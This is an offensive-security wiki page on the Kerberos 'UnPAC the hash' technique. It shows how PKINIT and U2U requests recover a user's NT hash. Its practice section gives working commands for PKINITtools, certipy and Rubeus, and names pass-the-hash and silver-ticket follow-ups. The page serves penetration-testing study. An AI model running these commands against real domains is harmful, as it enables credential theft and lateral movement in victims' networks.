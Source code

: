 # UnPAC the hash

## Theory

When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a `PAC_CREDENTIAL_INFO` structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

The NTLM keys will then be recoverable after a TGS-REQ through U2U which is a Service Ticket request made to the KDC where the user asks to authenticate to itself ([User-to-User authentication](http://www.di-srv.unisa.it/\~ads/corso-security/www/CORSO-0001/kerberos/ref/kerberos-faq.html#u2uauth)).

The following protocol diagram demonstrates how UnPAC-the-hash works. It allows attackers that know a user's private key, or attackers able to conduct a [Shadow Credentials](shadow-credentials.md) attacks, to recover the user's LM and NT hashes.

![](../../../.gitbook/assets/UnPAC-the-hash.png)

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this attack can be conducted with [PKINITtools](https://github.com/dirkjanm/PKINITtools) (Python).

The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.

```python
gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"
```

Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.

```bash
export KRB5CCNAME="TGT_CCACHE_FILE"
getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'
```

The NT hash can be used for [pass-the-hash](../ntlm/pth.md), [silver ticket](forged-tickets.md#silver-ticket), or [Kerberos delegations](delegations/) abuse.

{% hint style="info" %}
If you have this error:**`KDC_ERR_PADATA_TYPE_NOSUPP`**when requesting PKINIT, it may be an indication that your targeted KDCs do not have certificates with the necessary EKU (Extended Key Usages). \
More specificly, If a KDC must support smart card logon, its certificate must have the `Smart Card Logon` EKU\
\
**You can use your certificate to logon on LDAPS via Schannel**
{% endhint %}

Authentication via Schannel is supported by [certipy-ad](https://github.com/ly4k/Certipy):

```bash
certipy auth -pfx administrator.pfx -username 'administrator' -domain 'contoso.local' -ldap-shell -ldap-scheme ldaps -dc-ip $DC_IP
[*] Connecting to 'ldaps://10.10.10.10:636'
[*] Authenticated to '10.10.10.10' as: u:CONTOSO.LOCAL\Administrator
Type help for list of commands

# help
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to requesting a ticket using a certificate and use `/getcredentials` to retrieve the NT hash in the PAC.

```bash
Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://shenaniganslabs.io/2021/06/21/Shadow-Credentials.html" %}

{% embed url="https://www.sstic.org/2014/presentation/secrets_dauthentification_pisode_ii__kerberos_contre-attaque/" %}
